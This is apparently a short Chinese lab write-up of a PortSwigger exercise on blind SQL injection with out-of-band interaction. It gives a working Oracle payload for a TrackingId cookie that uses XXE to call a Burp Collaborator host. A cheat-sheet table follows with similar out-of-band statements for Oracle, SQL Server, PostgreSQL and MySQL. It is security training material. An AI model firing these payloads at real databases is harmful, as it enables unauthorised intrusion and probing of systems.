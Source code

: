 因为是oracle数据库

使用paylaod:

```javascript
TrackingId=x'+UNION+SELECT+extractvalue(xmltype('<%3fxml+version%3d"1.0"+encoding%3d"UTF-8"%3f><!DOCTYPE+root+[+<!ENTITY+%25+remote+SYSTEM+"http%3a//x.burpcollaborator.net/">+%25remote%3b]>'),'/l')+FROM+dual--
```





各类型数据库带外交互语句：

| Oracle | The following technique leverages an XML external entity (XXE) vulnerability to trigger a DNS lookup. The vulnerability has been patched but there are many unpatched Oracle installations in existence:<br>SELECT extractvalue(xmltype('&lt;?xml version="1.0" encoding="UTF-8"?&gt;&lt;!DOCTYPE root [ &lt;!ENTITY % remote SYSTEM "http://YOUR-SUBDOMAIN-HERE.burpcollaborator.net/"&gt; %remote;]&gt;'),'/l') FROM dual<br><br>The following technique works on fully patched Oracle installations, but requires elevated privileges:<br>SELECT UTL\_INADDR.get\_host\_address('YOUR-SUBDOMAIN-HERE.burpcollaborator.net') |
| - | - |
| Microsoft | exec master..xp\_dirtree '//YOUR-SUBDOMAIN-HERE.burpcollaborator.net/a' |
| PostgreSQL | copy (SELECT '') to program 'nslookup YOUR-SUBDOMAIN-HERE.burpcollaborator.net' |
| MySQL | The following techniques work on Windows only:<br>LOAD\_FILE('\\\\\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\\\a')<br>SELECT ... INTO OUTFILE '\\\\\\\\YOUR-SUBDOMAIN-HERE.burpcollaborator.net\\a' |


参考链接：

https://portswigger.net/web-security/sql-injection/cheat-sheet